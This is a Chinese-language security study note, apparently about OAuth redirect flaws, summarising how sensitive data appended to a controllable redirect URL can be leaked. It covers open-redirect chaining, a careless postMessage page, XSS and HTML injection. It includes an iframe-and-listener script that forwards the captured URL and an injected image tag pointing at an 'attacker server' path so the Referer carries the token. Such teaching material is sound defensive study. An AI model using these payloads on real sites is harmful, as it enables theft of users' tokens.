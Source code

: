 # 总结 4、5、6 篇

如下是针对系统存在 **可控的 url 拼接敏感数据，并且作为响应让用户访问** 场景下的利用和绕过。

### 第四篇：可控的 url 拼接敏感数据

就是目标系统存在如下场景：

```
可控的 url 拼接敏感数据并让用户访问的场景。 
```

攻击者诱使用户访问：

```
触发系统拼接敏感数据的链接?redirect_url=攻击者域
```

触发系统拼接敏感数据后，用户访问：

```
攻击者域+敏感数据
```

### 第五篇：开放重定向 url 拼接敏感数据

依然存在如下场景：

```
可控的 url 拼接敏感数据并让用户访问的场景。 
只不过此 url 可能进行了过滤使得域名必须是本域。
```

攻击者构造如下 url：

```
本域?redirect_path=攻击者网站
```

诱使用户访问：

```
触发系统拼接敏感数据的链接?redirect_url=本域?redirect_path=攻击者网站
```

触发系统拼接敏感数据后，用户访问：

```
本域?redirect_path=攻击者网站+敏感数据
```

### 第六篇：危险的 js 代码

依然存在如下场景：

```
可控的 url 拼接敏感数据并让用户访问的场景。 
只不过此 url 可能进行了过滤使得域名必须是本域。
```

但是目标的 /example 页面存在危险的 js 代码：

```
// 向父页面发送 url。
parent.postMessage({type: 'onload', data: window.location.href}, '*')
```

攻击者构造如下 url：

```
本域/example
```

诱使用户访问：

```
触发系统拼接敏感数据的链接?redirect_url=本域/example
```

触发系统拼接敏感数据后，用户访问此 url：

```
本域/example+敏感数据
```

此时我们再让攻击者页面作为父页面即可：

```
<iframe src="触发系统拼接敏感数据的链接?redirect_url=本域/example"></iframe>

// 如下 script 脚本用于作为父页面接收子页面发来的数据。
<script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
</script>
```

### XSS

诱使用户访问：

```
触发系统拼接敏感数据的链接?redirect_url=本域存在xss的页面
```

触发系统拼接敏感数据后，用户访问此 url：

```
本域存在xss的页面+敏感数据
```

### HTML 注入

诱使用户访问：

```
触发系统拼接敏感数据的链接?redirect_url=本域存在html注入的页面
```

触发系统拼接敏感数据后，用户访问此 url：

```
本域存在html注入的页面+敏感数据
```

然后注入的 html 元素将向用户发送请求包，其中 referer 将会携带 url 信息（本域存在html注入的页面+敏感数据）。例如：

```
<img src="https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/攻击者服务器/img"> <!-- 注入的HTML -->
```
